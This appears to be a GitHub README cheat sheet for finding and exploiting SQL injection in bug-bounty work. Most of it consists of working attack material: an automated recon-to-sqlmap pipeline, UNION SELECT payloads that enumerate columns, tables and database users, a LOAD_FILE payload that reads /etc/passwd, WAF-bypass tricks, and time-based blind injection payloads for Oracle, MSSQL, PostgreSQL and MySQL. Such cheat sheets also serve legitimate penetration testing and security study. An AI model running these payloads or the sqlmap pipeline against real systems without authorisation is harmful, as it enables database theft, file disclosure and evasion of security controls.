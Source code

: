 # SQL Injection
Here are some quick methods to detect the SQL Injection vulnerability, though the methods are not limited. There are various tricks and tools.

# Methods To Find Sqli

## 1. Using Burpsuite :
```
  1. Capture the request using burpsuite.
  2. Send the request to burp scanner.
  3. Proceed with active scan.
  4. Once the scan is finished, look for SQL vulnerability that has been detected.
  5. Manually try SQL injection payloads.
  6. Use SQLMAP to speed up the process.
```
## 2. Using waybackurls and other bunch of tools :
```
  1. sublist3r -d target | tee -a domains (you can use other tools like findomain, assetfinder, etc.)
  2. cat domains | httpx | tee -a alive
  3. cat alive | waybackurls | tee -a urls
  4. gf sqli urls >> sqli
  5. sqlmap -m sqli --dbs --batch
  6. use tamper scripts
```
## 3. Using heuristic scan to get hidden parameters :
```
  1. Use subdomain enumeration tools on the domain.
  2. Gather all urls using hakcrawler, waybackurls, gau for the domain and subdomains.
  3. You can use the same method described above in 2nd point.
  4. Use Arjun to scan for the hidden params in the urls. 
  5. Use --urls flag to include all urls.
  6. Check the params as https://domain.com?<hiddenparam>=<value>
  7. Send request to file and process it through sqlmap.
```
## 4. Error generation with untrusted input or special characters :
```
  1. Submit single quote character ' & look for errors.
  2. Submit SQL specific query.
  3. Submit Boolean conditions such as or 1=1 and or 1=0, and looking application's response.
  4. Submit certain payloads that results in time delay.
```
# Post-Methods
## 1. Finding total number of columns with order by or group by or having :
```
  Submit a series of ORDER BY clause such as 
	  
    ' ORDER BY 1 --
	  ' ORDER BY 2 --
    ' ORDER BY 3 --
    
    and incrementing specified column index until an error occurs.
```
## 2. Finding vulnerable columns with union operator :
```
  Submit a series of UNION SELECT payloads.
  
	  ' UNION SELECT NULL --
    ' UNION SELECT NULL, NULL --
    ' UNION SELECT NULL, NULL, NULL --
    
  (Using NULL maximizes the probability that the payload will succeed. NULL can be converted to every commonly used data type.)
```
* To go for the methods in more detail, go through portswigger site.
  
  https://portswigger.net/web-security/sql-injection/union-attacks

## 3. Extracting basic information like database(), version(), user(), UUID() with concat() or group_concat()

### 1. Database version
```
    Oracle 			  SELECT banner FROM v$version
		       		  SELECT version FROM v$instance
    
    Microsoft 			  SELECT @@version
    
    PostgreSQL 			  SELECT version()
    
    MySQL 			  SELECT @@version
```
### 2. Database contents
```
    Oracle        SELECT * FROM all_tables
	          SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
    
    Microsoft 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    
    PostgreSQL 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

    MySQL         SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
### 3. Shows version, user and database name
```
   ' AND 1=2 UNION ALL SELECT concat_ws(0x3a,version(),user(),database())
```
### 4. Using group_concat() function, used to concat all the rows of the returned results.
```  
   ' union all select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()–
```
## 4. Accessing system files with load_file(). and advance exploitation afterwards :
```
   ' UNION ALL SELECT LOAD_FILE ('/ etc / passwd')
```
## 5. Bypassing WAF :

### 1. Using Null byte before SQL query.
```
    %00' UNION SELECT password FROM Users WHERE username-'xyz'--
```
### 2. Using SQL inline comment sequence.
```
    '/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'xyz'-- 
```
### 3. URL encoding
```      
      for example :
    / URL encoded to %2f
    * URL encoded to %2a

    Can also use double encoding, if single encoding doesn't works. Use hex encoding if the rest doesn't work.
```
### 4. Changing Cases (uppercase/lowercase)
* For more step wise detailed methods, go through the link below.

  https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
### 5. Use SQLMAP tamper scripts. It helps bypass WAF/IDS/IPS.
* 1. Use Atlas. It helps suggesting tamper scripts for SQLMAP.
     
     https://github.com/m4ll0k/Atlas
* 2. JHaddix post on SQLMAP tamper scripts.
     
     https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423
        
## 6. Time Delays :
```
      Oracle 	      dbms_pipe.receive_message(('a'),10)
      
      Microsoft 	  WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT pg_sleep(10)
      
      MySQL 	      SELECT sleep(10) 
```      
## 7. Conditional Delays :
```
      Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
      
      Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
      
      MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
```      
# Resources and tools that will help gain an upper hand on finding bugs :
* Portswigger SQL Injection cheat sheet - https://portswigger.net/web-security/sql-injection/cheat-sheet
* HTTPX - https://github.com/encode/httpx
* GF patterns - https://github.com/1ndianl33t/Gf-Patterns
* GF (Tomnomnom)- https://github.com/tomnomnom/gf
* We can also use gau with waybackurls to fetch all urls.
* Waybackurls - https://github.com/tomnomnom/waybackurls
* Gau - https://github.com/lc/gau
* Arjun - https://github.com/s0md3v/Arjun
* Hakcrawler - https://github.com/hakluke/hakrawler


### Author :

* [@xhan1x](https://twitter.com/xhan1x)
